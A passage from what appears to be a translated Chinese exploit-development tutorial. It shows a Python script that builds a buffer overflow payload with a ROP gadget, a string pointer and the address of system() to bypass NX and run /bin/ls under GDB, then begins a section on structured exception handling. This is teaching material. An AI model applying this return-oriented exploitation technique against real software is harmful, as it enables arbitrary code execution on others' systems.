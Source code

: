 ```
$ find "/bin/ls"
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00325.jpeg)

现在，我们已经得到了地址为`0x400697`的字符串的位置。

堆栈的逻辑顺序应为：

1.  `system`函数的地址
2.  字符串指针，将弹出到 RDI 寄存器
3.  用于提取 pop 的 ROP 小工具，pop 是 RDI 寄存器堆栈中的最后一个元素

现在，我们需要使用我们的攻击代码，以相反的顺序将它们推入堆栈：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += pack("<Q", 0x0000000000400653) # <-- ROP gadget
buffer += pack("<Q", 0x400697) #  <-- pointer to "/bin/ls"
buffer += pack("<Q", 0x7ffff7a57590) # < -- address of system function

f = open("input.txt", "w")
f.write(buffer)
```

让我们运行脚本来更新`input.txt`：

```
$ ./exploit.py
```

然后，从 GDB 运行以下命令：

```
$ run < input.txt
```

堆栈的逻辑顺序应如下所示：

![](../images/00326.jpeg)

成功了！如您所见，`ls`命令执行成功。我们找到了绕过 NX 保护并利用此代码的方法。

# 结构化异常处理

**结构化异常处理**（**SEH**只是代码执行过程中发生的事件。我们可以看到高级编程语言中的 SEH，如 C++和 Python。请看下面的代码：

```
try:
    divide(6,0)
except ValueError:
    print "That value was invalid."
```
